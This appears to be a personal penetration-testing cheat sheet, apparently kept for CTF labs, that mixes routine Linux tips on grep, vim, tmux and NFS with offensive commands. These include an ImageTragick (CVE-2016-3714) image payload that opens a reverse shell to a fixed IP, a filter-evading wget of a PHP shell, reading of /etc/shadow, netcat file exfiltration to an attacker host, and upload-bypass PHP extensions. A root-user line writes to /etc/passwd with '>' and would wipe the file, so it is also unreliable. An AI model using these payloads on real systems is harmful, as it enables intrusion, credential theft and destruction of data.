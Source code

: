 [back](../README.md)
#### scan rpc port
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```
---
#### scan from 1 to 100 ports with nc
```sh
for i in {1..100};do nc $IP $i;echo "";done
```
---
#### CVE-2016–3714

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
---

#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
ltrace # is a debugging utility in Linux, used to display the calls a userspace application makes to shared libraries.
echo "11 00 34 5f" | xxd -r -p #from bytes to letters

`l\s`: Equivalent to `ls`
`wget${IFS}http://10.8.50.72:8000/shell.php`

cat ./-

file */{.,}* #every type of file in folder
du -b -a | grep 1033 #size of file
sort data.txt | uniq -u #uniq lines

cat .download.dat | xxd -r -p #like strings
```

---
#### if command to long
```python
python3 py.py 10.10.13.118 "$(cat revshell.ps1)"
```
---
#### Decompress a gzip file:
```sh
gzip -d file.gz
```
---
#### Change file without vim or nano
```sh
cat > file << EOF 
....
EOF
```
---
#### php extensions to run revsell
```
.php
.php3
.php4
.php5
.phtml
```
---
#### broken png image
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
---
#### NFS share
```
showmount -e $IP
mkdir tmp/
sudo mount -t nfs 10.10.104.64: tmp
tree tmp
```
#### if 2049 port is open (mount)
```
showmount -e $IP
mount -t nfs $IP:/mnt/backups /mnt/loot
```
#### socat if open port
```python
./socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```

#### create new user in /etc/passwd with root

```
echo "user:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash" > /etc/passwd
```
---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:

```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```

2. To receive the file on the attacker machine:

```nc
nc -l ATTACKER_PORT > [output_file_path]
```

---
#### Transfer files using `scp`:

```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
scp -i id_rsa user@$IP:/home/willow/user.jpg . 
```
#### fix PATH in old ubuntu
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
#### mount
```sh
sudo apt install nfs-common
showmount -e $IP
sudo mkdir /mnt/nfs                                                              sudo mount -t nfs $IP:/var/failsafe /mnt/nfs 
```

#### grep
```sh
locate seclist | grep <what>
grep -Rwi "text"             # Recursively search for lines
grep -n                      # show numbers of lines
grep -i                      # do not care abuot regex
grep -c                      # how many times
grep linux * -r              # recursive  in all files
# точка - это любой символ, -f чтоб точка не считалась любым символом
-v '^#'                      # begins with
'^$'                         # пустые строки
-e '^(#|$)'                  # начинается или с # или с $(пустая строка)
grep -e 'colou?r'            # ? makes preveous character optional (то есть и может стоять и нет)
grep -w 'root'               # only word root, not asdrootas
\grep                        # unalias
-A5                          # five line after the math
-B5                          # before
-C5                          # before and after
-e '[0-9]{5,6}/tcp' file.txt # от 5 до 6 цифр от 0 до 9
-E '[0-9]$'                  # number at the end of line
-E '\s*'                     # space or tab 
+                            # one and more chars
```

---
#### ssh
```
ssh-keygen -t rsa -q -f "$HOME/.ssh/id_rsa" -N ""
```
#### ftp
```
ftp -A $IP #connect anon

prompt off
mget * #download all files
```
#### vim
```vim
Shift+H     # Move cursor to the top of the screen.
Shift+M     # Move cursor to the middle of the screen.
Shift+L     # Move cursor to the bottom of the screen.
gj          # Move one line down if text is within one line.
g0          # Move cursor to the start of the current line.
dk          # Delete current line and the line above it.
gq q        # Format selected text into a single block of multiple lines (VAPGQ).
J           # Join lines together (opposite of GQ).
gj          # Join lines without spaces (opposite of J).
gu u        # Convert to lowercase.
gU U        # Convert to uppercase.
~           # Toggle case of current character.
g~ ~        # Toggle case of all characters in the current line.
gf          # Open the file whose name is under the cursor, '^' to go back.
gv          # Return to the previous selection after visual mode.
```
#### tmux
```
ctrl b d # сохранить сессию и выйти из нее
cb p     # previous window
cb n     # next window
cb ,     # rename window
cb c     # create window
cb w     # list windows
tmux new -s [name_of_new_window]
cb :set -g mouse on
```
#### magic numbers
png
```
89504E470D0A1A0A
```
gif
```
GIF87a    474946383761
GIF89a    474946383961
```

#### mv multiple files
```
mv -t DESTINATION file1 file2 file3
```

---

#### run shell as other user
```
sudo -u user bash
```
---

#### shells
```
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
---

